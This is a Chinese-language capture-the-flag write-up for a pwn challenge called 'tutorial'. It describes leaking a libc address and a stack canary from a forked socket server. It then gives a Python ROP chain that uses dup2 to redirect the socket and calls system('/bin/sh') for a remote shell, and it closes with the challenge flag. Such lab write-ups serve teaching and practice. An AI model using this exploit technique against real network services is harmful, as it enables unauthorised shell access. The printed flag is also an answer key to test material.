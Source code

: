 tutorial
==========
由於自己對於網路程式設計還沒有概念，而且執行檔在 local 跑不起來，不能用 gdb 觀察，所以看得蠻吃力的。後來感謝 bruce 學長的提點，才順利解出來XD

解題流程
----------
程式一開始會建立 socket 連線，然後執行 ```fork``` 後進入 ```menu(int socket)``` 選單。
* 選項 1 會輸出 ```puts()``` 的 address 扣掉 1280 的值，可以從這邊推出 libc address。
* 選項 2 會接收長達 460 bytes 的輸入，並從輸入 buffer 開始輸出 324bytes。透過 IDA 得知該 buffer 的起點位在  ```rbp-320``` ，所以這裡可以 leak 出位於 ```rbp-8``` 的 canary。

```clike
write(socket_num, "Time to test your exploit...\n", 0x1DuLL);
write(socket_num, ">", 1uLL);
read(socket_num, &s, 460uLL);
write(socket_num, &s, 324uLL);
```
* 選項 3 離開程式。

----------
有了 libc address 和 canary 後就可以開始蓋 ROP chain 了。原本想直接蓋 ```system``` 開 shell，不知道為什麼失敗了，問了才知道由於前面的 ```fork```，這邊直接叫 ```system``` 的話 file descriptor 會接不起來。所以我們要先用 ```dup2()``` 把 fd 設好才行。
由於前面呼叫 ```read```  時已經把 rdi 設成我們要的值了，所以用 ```dup2``` 之前只要再把 rsi 設好即可。

```python
chain = 'A'*312 + p64(canary) + 'B'*8 +
	 p64(pop_rsi_r15_ret) + p64(0x0) + p64(0xdeadbeef) + p64(dup2) +
	 p64(pop_rsi_r15_ret) + p64(0x1) + p64(0xdeadbeef) + p64(dup2) +
	 p64(pop_rdi_ret) + p64(binsh) + p64(system)
```

把一開始 ```accept``` 的回傳值送給 ```stdin``` 和 ```stdout``` 之後 call ```system``` 就可以拿到 shell 了。

	FLAG{3ASY_R0P_R0P_P0P_P0P_YUM_YUM_CHUM_CHUM}
